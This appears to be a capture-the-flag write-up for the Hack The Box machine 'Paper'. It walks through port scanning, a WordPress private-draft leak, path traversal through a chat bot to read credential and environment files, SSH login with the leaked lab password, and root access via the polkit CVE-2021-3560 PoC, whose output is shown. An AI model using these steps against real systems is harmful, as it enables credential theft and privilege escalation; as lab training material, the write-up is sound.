







<div align="center"> <script src="https://app.hackthebox.com/profile/1670709"></script> </div>

---
Remote enumeration finds HTTP(S) and SSH. A WordPress information disclosure (static page leak) reveals a registration link for an internal chat service. The chat service exposes an RCE-like ability to read environment files, leaking credentials for user `dwight`. SSH access as `dwight` is obtained, then a local privilege escalation via a vulnerable polkit (CVE-2021-3560 / AccountsService injection) yields a root shell.

# Recon
Initial TCP & UDP port scans:
```bash

nmap --min-rate 10000 -p- 10.129.88.37
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-30 08:32 EAT
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Warning: 10.129.88.37 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.88.37
Host is up (0.35s latency).
Not shown: 51530 closed tcp ports (reset), 14002 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 86.04 seconds


nmap --min-rate 10000 -sU -p- 10.129.88.37
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-30 08:33 EAT
Warning: 10.129.88.37 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.88.37
Host is up (0.44s latency).
All 65535 scanned ports on 10.129.88.37 are in ignored states.
Not shown: 65457 open|filtered udp ports (no-response), 78 closed udp ports (port-unreach)

Nmap done: 1 IP address (1 host up) scanned in 74.38 seconds

```

Aggressive scan
```bash
nmap -sC -sV -p22,80,443 10.129.88.37 -o nmap
...[snip]...
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9

```

The HTTPS site responded with an additional domain hint: `office.paper`.   Visiting `office.paper` (added to `/etc/hosts` mapped to 10.129.88.37) showed a WordPress instance.
# Web 
.png)
The scan bear no fruits :(

## Web (443)  
.png)

We get a response that show us another domain `office.paper`   

## WordPress discovery
```sh
wpscan --url http://office.paper/

[+] URL: http://office.paper/ [10.129.88.37]
[+] Started: Wed Apr 30 11:14:04 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
 |  - X-Powered-By: PHP/7.2.24
 |  - X-Backend-Server: office.paper
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

...[snip]...


```

Searching for an exploit we get [this](https://www.exploit-db.com/exploits/47690) that allows us to Viewing Unauthenticated/Password/Private Posts
```md
So far we know that adding `?static=1` to a wordpress URL should leak its secret content

Here are a few ways to manipulate the returned entries:

- `order` with `asc` or `desc`
- `orderby`
- `m` with `m=YYYY`, `m=YYYYMM` or `m=YYYYMMDD` date format


In this case, simply reversing the order of the returned elements suffices and `http://wordpress.local/?static=1&order=asc` will show the secret content:
```

We follow the exploits steps and get :  


We get to a view  `micheals` draft, which contain some unpublished post.  
The post exposes a `Secret Registration URL `of new Employee chat system
`http://chat.office.paper/register/8qozr226AhkCHZdyY` 

## Internal chat (Rocket.Chat / Hubot) & information leak
We first add `chat.office.paper` to `/etc/hosts` then visit the site.  

Upon logging in :  


We read the `general` chat that appears and is flagged as favorite.  


We dm the bot to execute commands :   


the password file is in the `../hubot/.env` ,can get this from the rocket chat  git hub.  
Also from @ippsec i learnt this command that allows us to read the environment file using the rce vulnerability `../../../../proc/self/environ`   
creds :  
	- user : `dwight`  
	- password : `Queenofblad3s!23`

# Initial access — SSH as `dwight`
Now we can ssh 
```
ssh -p 'Queenofblad3s!23' dwight@10.129.88.37

[dwight@paper ~]$ whoami
dwight
[dwight@paper ~]$ id
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
[dwight@paper ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for dwight: 
Sorry, user dwight may not run sudo on paper.
[dwight@paper ~]$ 

```

# Local enumeration
Using `linpeas.sh` it flags the machine vulnerable to `CVE-2021-3560`  


The machine was CentOS and accountsservice/polkit were present.  
We prepar and executed a PoC script (`poc.sh`) that automates the primitive described by CVE-2021-3560. 

Running the script shows the typical exploit flow:
```sh

[dwight@paper shm]$ vi poc.sh
[dwight@paper shm]$ chmod +x poc.sh 
[dwight@paper shm]$ ./poc.sh 
[dwight@paper shm]$ ./poc.sh 

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!

```

Then : 
```sh

[dwight@paper shm]$ su - secnigma
Password: 
[secnigma@paper ~]$ sudo -l
[sudo] password for secnigma: 
Matching Defaults entries for secnigma on paper:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User secnigma may run the following commands on paper:
    (ALL) ALL
[secnigma@paper ~]$ sudo /bin/bash
[root@paper secnigma]# whoami
root
[root@paper secnigma]# id
uid=0(root) gid=0(root) groups=0(root)
[root@paper secnigma]#

```